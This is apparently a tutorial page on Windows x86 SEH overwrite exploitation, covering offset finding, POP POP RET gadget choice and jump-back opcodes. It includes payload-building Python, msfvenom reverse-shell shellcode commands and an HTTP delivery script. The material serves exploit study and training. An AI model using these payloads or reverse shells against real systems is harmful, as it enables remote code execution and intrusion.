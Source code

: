 # Windows SEH-based Stack Overflow Exploitation (nSEH/SEH)


SEH-based exploitation is a classic x86 Windows technique that abuses the Structured Exception Handler chain stored on the stack. When a stack buffer overflow overwrites the two 4-byte fields

- nSEH: pointer to the next SEH record, and
- SEH: pointer to the exception handler function

an attacker can take control of execution by:

1) Setting SEH to the address of a POP POP RET gadget in a non-protected module, so that when an exception is dispatched the gadget returns into attacker-controlled bytes, and
2) Using nSEH to redirect execution (typically a short jump) back into the large overflowing buffer where shellcode resides.

This technique is specific to 32-bit processes (x86). On modern systems, prefer a module without SafeSEH and ASLR for the gadget. Bad characters often include 0x00, 0x0a, 0x0d (NUL/CR/LF) due to C-strings and HTTP parsing.

---

## Finding exact offsets (nSEH / SEH)

- Crash the process and verify the SEH chain is overwritten (e.g., in x32dbg/x64dbg, check the SEH view).
- Send a cyclic pattern as the overflowing data and compute offsets of the two dwords that land in nSEH and SEH.

Example with peda/GEF/pwntools on a 1000-byte POST body:

```bash
# generate pattern (any tool is fine)
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000
# or
python3 -c "from pwn import *; print(cyclic(1000).decode())"

# after crash, note the two 32-bit values from SEH view and compute offsets
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 1000 -q 0x32424163   # nSEH
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 1000 -q 0x41484241   # SEH
# ➜ offsets example: nSEH=660, SEH=664
```
```
Validate by placing markers at those positions (e.g., nSEH=b"BB", SEH=b"CC"). Keep total length constant to make the crash reproducible.

---

## Choosing a POP POP RET (SEH gadget)

You need a POP POP RET sequence to unwind the SEH frame and return into your nSEH bytes. Find it in a module without SafeSEH and ideally without ASLR:

- Mona (Immunity/WinDbg): `!mona modules` then `!mona seh -m modulename`.
- x64dbg plugin ERC.Xdbg: `ERC --SEH` to list POP POP RET gadgets and SafeSEH status.

Pick an address that contains no badchars when written little-endian (e.g., `p32(0x004094D8)`). Prefer gadgets inside the vulnerable binary if protections allow.

---

## Jump-back technique (short + near jmp)

nSEH is only 4 bytes, which fits at most a 2-byte short jump (`EB xx`) plus padding. If you must jump back hundreds of bytes to reach your buffer start, use a 5-byte near jump placed right before nSEH and chain into it with a short jump from nSEH.

With nasmshell:

```text
nasm> jmp -660           ; too far for short; near jmp is 5 bytes
E967FDFFFF
nasm> jmp short -8       ; 2-byte short jmp fits in nSEH (with 2 bytes padding)
EBF6
nasm> jmp -652           ; 8 bytes closer (to account for short-jmp hop)
E96FFDFFFF
```
```
Layout idea for a 1000-byte payload with nSEH at offset 660:

```python
buffer_length = 1000
payload  = b"\x90"*50 + shellcode                    # NOP sled + shellcode at buffer start
payload += b"A" * (660 - 8 - len(payload))           # pad so we are 8 bytes before nSEH
payload += b"\xE9\x6F\xFD\xFF\xFF" + b"EEE"     # near jmp -652 (5B) + 3B padding
payload += b"\xEB\xF6" + b"BB"                      # nSEH: short jmp -8 + 2B pad
payload += p32(0x004094D8)                           # SEH: POP POP RET (no badchars)
payload += b"D" * (buffer_length - len(payload))
```
```
Execution flow:
- Exception occurs, dispatcher uses overwritten SEH.
- POP POP RET unwinds into our nSEH.
- nSEH executes `jmp short -8` into the 5-byte near jump.
- Near jump lands at the beginning of our buffer where the NOP sled + shellcode reside.

---

## Bad characters

Build a full badchar string and compare the stack memory after the crash, removing bytes that are mangled by the target parser. For HTTP-based overflows, `\x00\x0a\x0d` are almost always excluded.

```python
badchars = bytes([x for x in range(1,256)])
payload  = b"A"*660 + b"BBBB" + b"CCCC" + badchars  # position appropriately for your case
```
```
---

## Shellcode generation (x86)

Use msfvenom with your badchars. A small NOP sled helps tolerate landing variance.

```bash
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> \
  -b "\x00\x0a\x0d" -f python -v sc
```
```
If generating on the fly, the hex format is convenient to embed and unhex in Python:

```bash
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> \
  -b "\x00\x0a\x0d" -f hex
```
```
---

## Delivering over HTTP (precise CRLF + Content-Length)

When the vulnerable vector is an HTTP request body, craft a raw request with exact CRLFs and Content-Length so the server reads the entire overflowing body.

```python
# pip install pwntools
from pwn import remote
host, port = "<TARGET_IP>", 8080
body = b"A" * 1000  # replace with the SEH-aware buffer above
req = f"""POST / HTTP/1.1
Host: {host}:{port}
User-Agent: curl/8.5.0
Accept: */*
Content-Length: {len(body)}
Connection: close

""".replace('\n','\r\n').encode() + body
p = remote(host, port)
p.send(req)
print(p.recvall(timeout=0.5))
p.close()
```
```
---

## Tooling

- x32dbg/x64dbg to observe SEH chain and triage the crash.
- ERC.Xdbg (x64dbg plugin) to enumerate SEH gadgets: `ERC --SEH`.
- Mona as an alternative: `!mona modules`, `!mona seh`.
- nasmshell to assemble short/near jumps and copy raw opcodes.
- pwntools to craft precise network payloads.

---

## Notes and caveats

- Only applies to x86 processes. x64 uses a different SEH scheme and SEH-based exploitation is generally not viable.
- Prefer gadgets in modules without SafeSEH and ASLR; otherwise, find an unprotected module loaded into the process.
- Service watchdogs that automatically restart on crash can make iterative exploit development easier.

## References
- [[https://0xdf.gitlab.io/2025/08/07/htb-rainbow.html|HTB: Rainbow – SEH overflow to RCE over HTTP (0xdf)]]
- [[https://github.com/Andy53/ERC.Xdbg|ERC.Xdbg – Exploit Research Plugin for x64dbg (SEH search)]]
- [[https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-7-unicode-0day-buffer-overflow-seh-and-venetian-shellcode/|Corelan – Exploit writing tutorial part 7 (SEH)]]  
- [[https://github.com/corelan/mona|Mona.py – WinDbg/Immunity helper]]


